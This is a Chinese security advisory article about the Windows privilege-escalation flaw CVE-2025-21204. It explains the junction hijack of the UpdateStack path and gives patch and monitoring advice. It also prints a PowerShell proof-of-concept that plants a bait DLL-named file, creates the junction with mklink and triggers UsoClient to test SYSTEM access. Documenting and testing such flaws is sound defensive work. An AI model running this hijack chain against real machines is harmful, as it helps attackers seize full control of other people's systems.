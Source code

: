 #  Windows高危提权漏洞CVE-2025-21204曝光，千万用户需立即修复​​   
原创 Z0安全  Z0安全   2025-04-22 06:47  
  
近日，微软Windows系统曝出高危本地提权漏洞CVE-2025-21204，攻击者可利用该漏洞通过简单的符号链接攻击，在未经授权的情况下直接获取系统最高权限（SYSTEM权限），威胁用户数据安全甚至控制整个操作系统。以下是漏洞详情与防护指南：  
  
一、漏洞核心危害：低门槛提权，后果严重  
  
    攻击原理  
  
    漏洞存在于Windows更新组件（如MoUsoCoreWorker.exe和UsoClient.exe）中。由于系统默认信任C:\ProgramData\Microsoft\UpdateStack\Tasks路径，攻击者可通过创建符号链接（Junction），将该路径重定向到用户可控目录，并植入恶意脚本。当系统执行更新任务时，SYSTEM权限进程会加载恶意文件，导致攻击者完全控制系统。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/3ClhvEA8OWr10fEkx6Ce7Q9WWIianLdfMh7cMibAHa6DWtQpmYaic9yUrJDtmfReBuicejQcRryIqVeCQz8PEeSbeA/640?wx_fmt=jpeg&from=appmsg "")  
  
攻击门槛极低  
  
攻击者仅需普通用户权限即可完成漏洞利用，无需复杂技术或物理接触设备。通过触发Windows更新任务（如计划扫描），即可在30秒内实现提权。  
  
潜在风险  
  
    窃取敏感数据（如密码、加密证书）  
  
    安装隐蔽后门或勒索软件  
  
    篡改系统配置，破坏稳定性  
  
二、影响范围：覆盖主流Windows版本  
  
    受影响系统：Windows 10（21H2及以上）、Windows 11（所有版本）、Windows Server 2022  
  
修复状态：微软已于2025年4月发布补丁（KB5055518/KB5055523等），但仍有大量用户未更新   。  
  
三、紧急防护措施：三步阻断攻击链  
  
1. 立即更新系统补丁  
  
    打开Windows设置，进入“更新与安全”，手动安装2025年4月累积更新（搜索KB5055518或KB5055523）。  
  
注意：切勿删除系统inetpub文件夹，否则可能导致补丁失效。  
  
2. 监控异常行为  
  
    启用企业级EDR/XDR工具，重点关注clfs.sys进程和UpdateStack目录的异常操作 。  
  
    普通用户可通过任务管理器观察MoUsoCoreWorker.exe和UsoClient.exe的异常启动频率。  
  
3. 最小权限原则  
  
    限制普通用户的本地管理员权限，避免攻击者轻易植入恶意文件。  
  
    定期审计系统目录权限设置，确保关键路径（如ProgramData）不被非授权用户写入。  
  
4.本地复现  
  
此脚本通过**符号链接劫持（Junction）**  
模拟非管理员用户利用漏洞获取SYSTEM权限的过程，具体分为三个阶段：  
1. **准备阶段**  
1. 创建陷阱目录（$trapPath  
），模仿系统信任的更新路径C:\ProgramData\Microsoft\UpdateStack\Tasks  
  
- 在用户可控目录生成恶意DLL文件（UpdateStackAgent.dll  
），内含触发提权后的验证日志代码  
  
- **路径劫持**  
- 通过mklink /J  
命令创建符号链接，将系统原路径劫持到陷阱目录  
  
- 触发Windows更新协调器（UsoClient.exe StartScan  
），诱导SYSTEM进程MoUsoCoreWorker.exe  
加载恶意DLL  
  
- **验证阶段**  
- 监控系统进程是否执行恶意负载，生成验证文件（cve2025-proof.log  
）  
  
- 记录攻击日志（verboseLog  
和evidence.txt  
），最终输出漏洞利用是否成功  
  
本地测试脚本：  
  
   
  
<#  
  
```
.SYNOPSIS    CVE-2025-21204 exploit simulation for non-admin users via junction-based path hijack..DESCRIPTION    Drops a bait payload in a user-controlled directory, creates a junction to hijack the Update Stack path,    and triggers the update process to test if SYSTEM accesses the payload.    The script provide the poc that allows to run this actions. .AUTHOR    Elli Shlomo#># Paths$trapPath      = "$env:APPDATA\Microsoft\UpdateStack\Tasks"$updateStackRealPath = "C:\ProgramData\Microsoft\UpdateStack\Tasks"$payloadPath   = "$trapPath\UpdateStackAgent.dll"$proofPath     = "C:\Users\Public\cve2025-proof.log"$logPath       = "$env:APPDATA\CVE2025\simulation.log"$evidencePath  = "$env:APPDATA\CVE2025\evidence.txt"$verdictPath   = "$env:APPDATA\CVE2025\vulnerable.txt"$verboseLog    = "$env:TEMP\cve2025-verbose.log"# IntroWrite-Host"`n[*] CVE-2025-21204 Exploit Simulation (Non-Admin)"Write-Host"[*] Trap directory       : $trapPath"Write-Host"[*] Payload DLL path     : $payloadPath"Write-Host"[*] SYSTEM proof file    : $proofPath"Write-Host"[*] Simulation log       : $logPath"Write-Host"[*] Evidence file        : $evidencePath"Write-Host"[*] Verdict result       : $verdictPath"Write-Host"[*] Verbose transcript   : $verboseLog`n"# Start transcriptStart-Transcript-Path$verboseLog-Force# Ensure directories existWrite-Host"[*] Creating necessary directories..."New-Item-Path$trapPath-ItemType Directory -Force-ErrorAction SilentlyContinue | Out-NullNew-Item-Path (Split-Path$logPath) -ItemType Directory -Force-ErrorAction SilentlyContinue | Out-NullWrite-Host"[+] Directories ready.`n"# Payload content$payload = @"Payload executed by SYSTEM at: $(Get-Date)"@# Write bait payloadWrite-Host"[*] Writing payload to: $payloadPath"$payload | Out-File-FilePath$payloadPath-Encoding ASCII$payload | Out-File-FilePath$proofPath-AppendWrite-Host"[+] Payload written.`n"# Simulation metadata log$log = @"CVE-2025-21204 Exploit Simulation-------------------------------------Date         : $(Get-Date)Payload File : $payloadPathHijack Path  : $updateStackRealPathProof File   : $proofPath"@Set-Content-Path$logPath-Value$log-Encoding UTF8 -ForceWrite-Host"[+] Simulation metadata saved.`n"# Attempt junction creation (non-admin safe)Write-Host"[*] Attempting junction (no admin)..."if (-not (Test-Path$updateStackRealPath)) {    try {        $cmd = "cmd.exe /c mklink /J `"$updateStackRealPath`" `"$trapPath`""        Start-Process-FilePath"cmd.exe"-ArgumentList"/c mklink /J `"$updateStackRealPath`" `"$trapPath`""-NoNewWindow-Wait        Write-Host"[+] Junction created: $updateStackRealPath → $trapPath"    } catch {        Write-Host"[-] Failed to create junction: $_"    }} else {    Write-Host"[!] Target path already exists: $updateStackRealPath"    Write-Host"[-] Cannot create junction unless folder is removed by SYSTEM update cleanup."}Write-Host""# Trigger updateWrite-Host"[*] Triggering UsoClient.exe (StartScan)..."try {    Start-Process UsoClient.exe -ArgumentList StartScan -WindowStyleHidden    Write-Host"[+] UsoClient.exe started.`n"} catch {    Write-Host"[-] Failed to trigger UsoClient.exe: $_"}# Monitor for SYSTEM processWrite-Host"[*] Monitoring for SYSTEM process MoUsoCoreWorker.exe..."$found = $falsefor ($i = 1; $i-le6; $i++) {    Start-Sleep-Seconds5    Write-Host"[=] Attempt ${i}: Checking..."    if (Get-Process-Name"MoUsoCoreWorker"-ErrorAction SilentlyContinue) {        Write-Host"[!] SYSTEM process detected: MoUsoCoreWorker.exe"        $found = $true        break    }}Start-Sleep-Seconds5# Check for successWrite-Host"`n[*] Analyzing payload execution..."if (Test-Path$proofPath) {    $owner = (Get-Acl$proofPath).Owner    $timestamp = (Get-Item$proofPath).LastWriteTime    $details = @"[+] Exploit successfulPayload executed as: $ownerLast Modified: $timestamp"@    Set-Content-Path$verdictPath-Value$true    Write-Host"[✓] SUCCESS: SYSTEM likely accessed the payload."} else {    $details = @"[!] Exploit failedNo proof file found.Time: $(Get-Date)"@    Set-Content-Path$verdictPath-Value$false    Write-Host"[✗] FAILURE: Payload was not executed by SYSTEM."}# Save evidenceSet-Content-Path$evidencePath-Value$details-Encoding UTF8Write-Host"[*] Forensic evidence saved: $evidencePath"# EndStop-TranscriptWrite-Host"`n[✓] Simulation complete. See verbose log: $verboseLog`n"
```  
  
  
   
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3ClhvEA8OWr10fEkx6Ce7Q9WWIianLdfMTxqHPAVtWp5qHazRDxHR4JQLDwJPekG3lgWoLHUYX6vMKARwM9yQUA/640?wx_fmt=png&from=appmsg "")  
  
  
  
